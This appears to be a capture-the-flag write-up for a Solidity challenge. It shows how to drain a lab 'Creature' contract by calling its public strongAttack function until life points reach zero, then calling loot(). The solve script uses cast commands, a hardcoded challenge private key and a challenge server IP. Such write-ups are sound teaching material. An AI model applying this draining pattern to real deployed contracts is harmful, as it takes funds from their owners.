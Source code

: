 # Survival of the fittest

We are provided with two Solidity contracts, `Setup.sol` and `Creature.sol`. The goal of this challenge is to interact with the Creature contract deployed by the Setup contract and drain its life points to trigger the `loot` function and obtain the flag.

## Contract Overview
### Setup.sol
`Setup.sol` is the main contract used to set up the challenge. It does the following:

1. Requires 1 Ether to be sent upon deployment.
2. Creates an instance of the `Creature` contract and stores it as `TARGET`.
3. Provides a `isSolved` function to check if the challenge is solved.

### Creature.sol
`Creature.sol` represents the creature with life points that you need to attack and eventually loot. It has the following functions:

* `strongAttack(uint256 _damage)`: Deals damage to the creature.
* `punch()`: Deals 1 damage to the creature.
* `loot()`: Allows you to loot the creature's balance when its life points reach 0.

## Solution

### 1. Find vulnerable function

When looking through the `loot()` function, we can see something fishy. 
```solidity
function loot() external {
        require(lifePoints == 0, "Creature is still alive!");
        payable(msg.sender).transfer(address(this).balance);
    }
```
This will check if the `lifePoints` is equal to 0. If it is NOT equal, it returns that the `"Creature is still alive!"`. 

But when lifePoints are 0, it will transfer the entire balance of the current contract `(address(this))` to the `msg.sender`.

AKA, transfer us all of the money 😎

### 2. Now we need to find a way for us to make our `lifePoints` to 0.

This can be done with either the `punch()` function
```solidity
function punch() external {
        _dealDamage(1);
    }
```
or the `strongAttack(uint256 _damage)` function
```solidity
function strongAttack(uint256 _damage) external{
        _dealDamage(_damage);
    }
``` 
where both of these will call the `dealDamage(uint256 _damage)` function where it will reduce the `lifePoints` to `-= _damage;`
```solidity
function _dealDamage(uint256 _damage) internal {
        aggro = msg.sender;
        lifePoints -= _damage;
    }
```

### 3. Check Initial Life Points

I will use the cast call command to check the initial life points of my wallet. We should have 20.
```bash
cast call *targetadress* "lifePoints()" --rpc-url https://x.x.x.x/rpc
```

### 4. Attack!!

Then to leak the flag we will make a loop that will run 20 times with using the `strongAttack` function where we set the `_damage` to 1, until we have a lifepoint of 0.  
```bash
for ((i=0; i<20; i++)); do
    cast send *targetadress* "strongAttack(uint256)" 1 --rpc-url https://x.x.x.x/rpc --private-key *privatekey*
done
```

### 5. Loot the Creature

Once the creature's life points reach 0, we can use the loot function to obtain its balance.

```bash
cast send *targetadress* "loot()" --rpc-url https://x.x.x.x/rpc --private-key *privatekey*
```

### 6. Obtain the Flag
Either go to your web browser and go to the `/flag` endpoing or use `curl` to retrieve the flag.

```bash
curl -s "$url/flag"
```

## My solvescript

And the solution I made is this script where we just pass in the url, privatekey and target address as a variable.
```bash
#!/bin/bash

target_adress=0x0cE6FDF176e76B287b1B22FcC24E0a4a4DdB3FE9
private_key=0xdbcef11a58213e62451d140c64ba3fb7a715570a4ea9772d7eeab2d075ddbf12

cast call $target_adress "lifePoints()" --rpc-url http://167.172.62.51:31520/rpc

for ((i=0; i<20; i++)); do
    cast send $target_adress "strongAttack(uint256)" 1 --rpc-url http://167.172.62.51:31520/rpc --private-key $private_key
    cast call $target_adress "lifePoints()" --rpc-url http://167.172.62.51:31520/rpc
done

cast send $target_adress "loot()" --rpc-url http://167.172.62.51:31520/rpc --private-key $private_key

curl -s "http://167.172.62.51:31520/flag"
echo 
```

### Individual commands

But it could be narrowed down to these commands
```bash
cast call $target_adress "lifePoints()" --rpc-url http://167.172.62.51:31520/rpc
```
```bash
cast send $target_adress "strongAttack(uint256)" 1 --rpc-url http://167.172.62.51:31520/rpc --private-key $private_key
s
```
```bash
cast send $target_adress "loot()" --rpc-url http://167.172.62.51:31520/rpc --private-key $private_key
```
```bash
curl -s "http://167.172.62.51:31520/flag"
```